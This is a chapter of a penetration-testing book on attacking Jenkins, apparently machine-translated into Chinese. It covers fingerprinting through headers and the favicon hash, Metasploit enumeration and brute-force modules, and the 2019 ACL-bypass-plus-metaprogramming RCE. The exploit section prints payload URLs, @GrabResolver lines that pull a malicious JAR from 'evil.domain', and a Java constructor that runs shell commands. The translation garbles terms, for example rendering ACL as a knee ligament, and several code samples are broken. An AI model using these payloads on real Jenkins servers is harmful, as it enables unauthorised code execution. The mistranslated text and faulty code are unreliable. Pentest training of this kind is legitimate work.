







# 技术平台渗透测试-詹金斯

在前几章中，我们介绍了如何利用 JBoss 和 ApacheTomcat。在本章中，我们将介绍詹金斯。Jenkins 是一个流行的工具，用于自动化软件开发过程中的非人工部分。在**企业对消费者**（**B2C**）关系中，公司向消费者提供电子支付、电子商务、在线移动和洗碗充值计划等服务的模式，开发人员的工作量很大。由于在临时服务器和生产服务器上频繁进行更新，开发人员的环境变得复杂。为了更有效地进行软件更新并能够按时发布，一家公司将选择使用平台引擎来尝试并帮助管道化更新并轻松管理它们。

詹金斯就是这样一个平台引擎。它处理需要在一天中的不同时间部署到不同服务器上的源代码的部署和管理。由于 Jenkins 在管理公司源代码时会处理敏感信息，因此它是那些专注于工业网络间谍活动的人的热门目标。一旦威胁参与者能够访问 Jenkins 平台，他们就可以访问组织提供的服务的源代码（蓝图）

作为一名渗透测试人员，我们必须确保客户组织的实例（如 Jenkins）已完全修补。在本章中，我们将探讨以下主题：

*   詹金斯简介
*   詹金斯术语
*   詹金斯侦察和计数
*   利用詹金斯

让我们开始吧！

# 技术要求

本章的技术要求如下：

*   詹金斯实例：[https://jenkins.io/download/](https://jenkins.io/download/)
*   Metasploit 框架

# 詹金斯简介

Jenkins 是一个开源工具。它是使用 Java 构建的，这有助于在使用插件时进行持续集成。例如，如果我们想集成 Git，我们需要安装 Git 插件。Jenkins 支持数百个插件，这使得它几乎与所有工具都兼容。这样做是为了确保**持续集成**（**CI**）和**持续交付**（**CD**）。

以下是 Jenkins 的一些关键功能：

*   提供 CI 和 CD
*   基于插件的体系结构
*   可扩展
*   分布的
*   易于配置

# 詹金斯术语

在我们深入研究如何列举和利用詹金斯之前，我们需要了解本章后面部分可能出现的一些基本术语。

# 订书机图书馆

Stapper 是 Jenkins 使用的一个库，它允许对象自动映射到 URL。解决了**表达式语言**（**EL**（[等）等复杂应用中相对 URL 的映射问题 http://www-106.ibm.com/developerworks/java/library/j-jstl0211.html](http://www-106.ibm.com/developerworks/java/library/j-jstl0211.html) ）。它获取一个对象和一个 URL，然后根据该对象计算 URL。它会重复这个过程，直到找到一个静态资源、一个视图（如 JSP、Jelly、Groovy 等）或一个动作方法为止。下图更详细地显示了此过程：


（学分：[http://stapler.kohsuke.org/what-is.html](http://stapler.kohsuke.org/what-is.html) ）

如上图所示，根对象映射到 URL，而其他每个对象都映射为单独的路径，直到找到资源为止。

# URL 路由

Jenkins 使用 URL 路由来处理 URL 路径；让我们来看一看：

*   模型：

`getLog()`将遍历到`/log/`

`getJob("foo")`将遍历为`/job/foo`

*   行动方法

`doArtifact(...) action in getJob("foo")`将变为`/job/foo/1/artifact`，其中 1 为动态吸气剂。

# ApacheGroovy

ApacheGroovy 是一种支持静态类型和静态编译的多方面编程语言。这里用户要记住的关键点是 Groovy 支持运行时和编译时元编程。

# 元编程

元编程是一种允许计算机程序考虑其他程序作为输入数据的技术。因此，一个程序可以被设计成读/写/修改其他程序，甚至是自己。如果一个程序只是报告自己，这被称为**内省，**，而如果程序修改自己，这被称为**反射**。很多语言都支持元编程——PHP、Python、ApacheGroovy 和编译器就是一些例子。

让我们通过一个例子来进一步了解：

```
#!/bin/sh
echo '#!/bin/sh' > program1

for i in $(sequence 500)

do

echo "echo $i" >> program1

done

chmod +x program
```

如您所见，前面的程序创建了另一个程序`programs`，它打印数字`1-500`。

# 抽象语法树

**抽象语法树**（**AST**）表示程序的结构和内容相关细节。它不包括不必要的标点符号和分隔符。编译器使用 AST 进行解析、类型解析、流分析和代码生成。

# 管道

Jenkins 管道是插件的组合，这些插件一起工作，并有助于持续交付。管道可以使用 JenkinsFile 实现为代码，可以使用**领域特定语言**（**DSL**进行定义。詹金斯的管道是用 Groovy 建造的。

# 詹金斯侦察和计数

Jenkins 的枚举是渗透测试的一个非常重要的方面。执行侦察和枚举时检索的活动信息可以帮助渗透测试人员利用 Jenkins 实例。

有几种方法可以确定 Jenkins 的安装和版本检测过程。我们现在将讨论这些，然后讨论如何利用詹金斯。

# 利用 favicon 哈希检测 Jenkins

詹金斯有一个非常独特的 favicon，当转换成散列形式时，它变成了`81586312`。此散列可用于标识 Jenkins 安装；它甚至可以在 Shodan 上用于识别运行 Jenkins 的系统。

以下屏幕截图显示了如何使用哈希值来标识 Jenkins：


我们还可以使用不同的 Jenkins HTTP 响应头来查找 Jenkins 实例。例如，要查找 Jenkins 的特定版本，我们可以使用`X-Jenkins`标题，如以下屏幕截图所示：



让我们看看还有哪些 HTTP 响应头可以用来标识 Jenkins 实例。

# 使用 HTTP 响应头检测 Jenkins

检测 Jenkins 实例最常用的方法之一是分析 HTTP 响应头。Jenkins 将大量信息放入其响应头中，如版本的公开信息、**命令行界面**（**CLI**端口、用户和组权限等，所有这些都可以用于进一步的攻击。Jenkins 实例的响应头可以在以下屏幕截图中看到：


以下是可用于检测的 Jenkins 实例的一些 HTTP 服务器响应头：

*   `X-Hudson`
*   `X-Jenkins`
*   `X-Jenkins-Session`
*   `X-You-Are-Authenticated-As`
*   `X-You-Are-In-Group-Disabled`
*   `X-Required-Permission`
*   `X-Permission-Implied-By`
*   `X-Hudson-CLI-Port`
*   `X-Jenkins-CLI-Port`
*   `X-Jenkins-CLI2-Port`
*   `X-SSH-Endpoint`
*   `X-Hudson-JNLP-Port`
*   `X-Jenkins-JNLP-Port`
*   `X-Jenkins-JNLP-Host`
*   `X-Instance-Identity`
*   `X-Jenkins-Agent-Protocols`

现在，我们已经学习了一些手动检测 Jenkins 的常用方法，让我们进入渗透测试的下一个阶段——枚举

# 使用 Metasploit 的 Jenkins 枚举

现在，我们已经介绍了枚举 Jenkins 的手动方法，接下来让我们看一下 Metasploit 框架的辅助工具`jenkins_enum`，它将枚举向前推进了一步。

Metasploit 模块还有一个辅助模块，它使用与上一节中描述的方法类似的方法来执行侦察。这包括查找响应头值，即`X-Jenkins`，以及关键字的 HTML 源。可以使用以下命令加载辅助设备：

```
use auxiliary/scanner/http/jenkins_enum
```

以下屏幕截图显示了前面命令的输出：



设置前面屏幕截图中显示的选项后，运行辅助将检测版本号，并执行基本检查：


现在，我们可以更深入地研究一下辅助脚本的源代码，以了解脚本到底在做什么。通过查看以下屏幕截图，我们可以看到脚本检查以下内容：

*   `/view/All/newJobs`：显示作业列表
*   `/asynchPeople`：显示用户列表
*   `/systemInfo`：打印系统信息：



下面的命令显示了 Metasploit 中的另一个辅助命令，它允许我们强制执行 Jenkins 的凭据：

```
auxiliary/scanner/http/jenkins_login
```

以下屏幕截图显示了前面命令的输出：


设置所需选项并运行模块后，我们将看到辅助程序返回有效凭据。这可以在以下屏幕截图中看到：


现在让我们在下一节中探索詹金斯。

# 利用詹金斯

枚举完成后，如果发现 Jenkins 的易受攻击版本，我们可以进入攻击阶段。在本节中，我们将了解`@orangetsai`可以发现的各种漏洞，以及如何将它们链接在一起以在 Jenkins 服务器上执行系统命令。

首先，我们将看两个 2019 年最著名的漏洞，由`@orangetsai`（[发现 https://blog.orange.tw/](https://blog.orange.tw/) ），它利用詹金斯并返回了一枚炮弹。这些漏洞后来作为未经验证的 RCE 添加到 Metasploit 中。

# 詹金斯前交叉韧带旁路术

在 Jenkins 的脚本控制台漏洞被公开后，很多人开始在全局安全配置设置中将 Jenkins 的匿名读访问设置为**禁用**：


使用此设置，匿名用户将无法再看到除以下屏幕截图中显示的特定白名单项目之外的任何内容（这些项目在以下 URL 中提供：[https://github.com/jenkinsci/jenkins/blob/41a13dffc612ca3b5c48ab3710500562a3b40bf7/core/src/main/java/jenkins/model/Jenkins.java#L5258](https://github.com/jenkinsci/jenkins/blob/41a13dffc612ca3b5c48ab3710500562a3b40bf7/core/src/main/java/jenkins/model/Jenkins.java#L5258) ：


我们已经知道 Jenkins 是基于 Java 的，在 Java 中，一切都是`java.lang.Object`的子类。这样，所有对象都有`getClass()`，并且`getClass()`的名称符合命名约定规则。因此，绕过此白名单的一种方法是将白名单上的对象用作入口并跳转到其他对象。

Orange 发现调用对象（此处列出）会导致 ACL 绕过，并且可以成功访问搜索方法：

```
jenkins.model.Jenkins.getSecurityRealm()
.getUser([username])
.getDescriptorByName([descriptor_name])
```

上述对象中显示的路由机制映射为以下 URL 格式：

```
http://jenkins/securityRealm/user/<username>/search/index/q=<search value>
```

从提供的 URL 中，我们可以看到，除非登录，否则不允许执行任何操作：



现在，让我们看看使用 ACL 旁路时会发生什么：



我们成功地绕过了 ACL 并执行了搜索。

# 了解 Jenkins 未经认证的 RCE

将 ACL 旁路漏洞与沙箱旁路链接在一起，可以实现**远程代码执行**（**RCE**。Metasploit 已经有了一个利用这些漏洞并执行外壳代码的模块。让我们来看看它是如何使用之前，我们了解如何开发工作：

1.  我们可以在 msfconsole 中使用以下命令加载漏洞模块：

```
use exploit/multi/http/jenkins_metaprogramming
```

2.  以下屏幕截图显示了前面命令的输出：


3.  接下来，我们设置所需的选项并运行漏洞利用，如以下屏幕截图所示：


4.  现在我们有了一个反向 shell，让我们阅读该漏洞的源代码，并尝试了解它是如何工作的。通过查看源代码，我们可以看到漏洞利用中使用的各种 CVE，以及作者的详细信息：


5.  查看模块的源代码，我们可以看到模块正在使用带有`q=a`参数的`GET`HTTP 方法请求`/search/index`：


如我们所见，利用漏洞通过检查以下内容来确认应用是否正在运行 Jenkins：

*   ACL 绕过以调用搜索功能
*   X-Jenkins 值的响应头
*   调用搜索 URL 后关键字管理员的 HTML 页面主体

在这里，我们可以看到一些与 Groovy 的`doCheckScriptCompile`方法相关的内容正在被提及。`doCheckScriptCompile`是一种允许开发人员检查语法错误的方法。要解析语法，使用 AST 解析器（有关更多详细信息，请参阅本章的*Jenkins 术语*部分）：


为了能够实现成功的 RCE，我们需要发送通过`doCheckScriptCompile()`发送时执行的代码。这就是元编程的用武之地。Groovy 是元编程友好型的

当我们查看 Groovy 参考手册时，会遇到`@groovy.transform.ASTTest`，其描述如下：



这意味着通过`@ASTTest`时将执行以下代码：

```
@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec(" echo 'Hacked' ")
})
```

到目前为止，漏洞可以这样编写：

```
http://jenkins/org.jenkinsci.plugins.workflow.cps.cpsflowdefinition/checkScriptCompile?value=@groovy.transform.ASTTEST(value={echo%201}%0a%20class%20Person())
```

URL 正在调用 Jenkins 的`workflow-cps`插件，该插件具有`checkScriptCompile`方法。托管代码的 URL 为

[https://github.com/jenkinsci/workflow-cps-plugin/blob/2.46.x/src/main/java/org/jenkinsci/plugins/workflow/cps/CpsFlowDefinition.java](https://github.com/jenkinsci/workflow-cps-plugin/blob/2.46.x/src/main/java/org/jenkinsci/plugins/workflow/cps/CpsFlowDefinition.java) 可以看出如下：


然而，只有在 Jenkins 中不存在**管道共享 Groovy 库插件**的情况下，此版本的攻击才会起作用。这就是为什么，如果我们进一步查看漏洞代码，我们将看到与注释中提到的最终有效负载中使用的`@Grab`相关的内容，如下所示：


现在，我们需要了解`@Grab`是什么。根据 Groovy 的官方文档，Grape 是一个 JAR 依赖关系管理器，允许开发人员管理 Maven 存储库依赖关系并将其添加到类路径中，如以下屏幕截图所示：



因此，`@Grab`将从上述存储库导入依赖项，并将它们添加到代码中。现在，出现了一个问题：“如果存储库不在 Maven 上怎么办？”在我们的例子中，因为它在外壳代码中，Grape 将允许我们指定 URL，如下面的屏幕截图所示：


下面的代码将从[下载 JARhttp://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar](http://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar) ：

```
@GrabResolver(name='restlet', root='http://evil.domain/')
@Grab(group='evil.jar, module='org.restlet', version='1')
import org.restlet
```

现在我们已经从服务器下载了恶意 JAR，接下来的任务是执行它。为此，我们需要深入研究 Groovy 内核的源代码，这是实现 Grape 的地方（[https://github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy](https://github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy) ）。

我们可以使用一种方法来处理 ZIP（JAR）文件，并在特定目录中检查两种方法。请注意以下屏幕截图中显示的最后几行–有一个名为`processRunners()`的函数：


通过查看下面的函数，我们可以看到正在调用`newInstance()`。这意味着可以调用构造函数：


简言之，如果我们创建一个恶意 JAR 并将一个类文件放在 JAR 文件内的`META-INF/services/org.codehaus.groovy.plugins.Runners`文件夹中，我们将能够用代码调用构造函数，如下所示：

```
public class Exploit {
public Exploit(){
try {
String[] cmds = {"/bin/bash", "-c", "whoami"};
java.lang.Runtime.getRuntime().exec(cmds);
} catch (Exception e) { }
}
}
```

前面的代码将导致代码执行！

因此，如果我们返回到漏洞的源代码，如下面的屏幕截图所示，我们应该能够完全理解它是如何工作的：


`checkScriptCompile`用于传递程序的语法。`@Grabconfig`用于禁用所取文件的校验和。`@GrabResolver`用于获取外部依赖项（恶意 JAR 文件）。`Import`用于执行编写外壳代码的构造函数。

# 总结

在本章中，我们学习了 Jenkins 及其基本术语。我们介绍了如何手动检测 Jenkins 的安装，以及如何使用 Metasploit 框架。然后，我们学习了如何利用詹金斯，以及如何利用。如果您希望帮助您正在工作的公司应用更好的补丁程序，并让 pentester 开发更好的漏洞利用或绕过，了解这些漏洞利用的工作原理非常重要

我们的主要目标应该始终是尽可能多地学习技术。从 pentester 的角度来看，他们知道的越多，他们能够利用的机会就越大；从 blue team/SOC 团队的角度来看，关于他们安装的技术的更多信息有助于他们防止对其进行攻击。

在下一章中，我们将研究如何利用应用逻辑中的 bug。

# 问题

1.  如何在黑盒渗透测试中识别 Jenkins 实例？

2.  还有其他方法可以识别 Jenkins 实例吗？

3.  我已经从 HTTP 头中识别了 Jenkins 实例，但是该页面无法访问。我如何使页面可访问？

4.  一旦进入詹金斯小组，我能做什么？

# 进一步阅读

以下链接更详细地介绍了 Jenkins 漏洞：

*   黑客 Jenkins 第 2 部分-滥用元编程进行未经验证的 RCE:[https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
*   詹金斯安全咨询 2019-01-08:[https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266)
*   葡萄依赖管理：[http://docs.groovy-lang.org/latest/html/documentation/grape.html](http://docs.groovy-lang.org/latest/html/documentation/grape.html)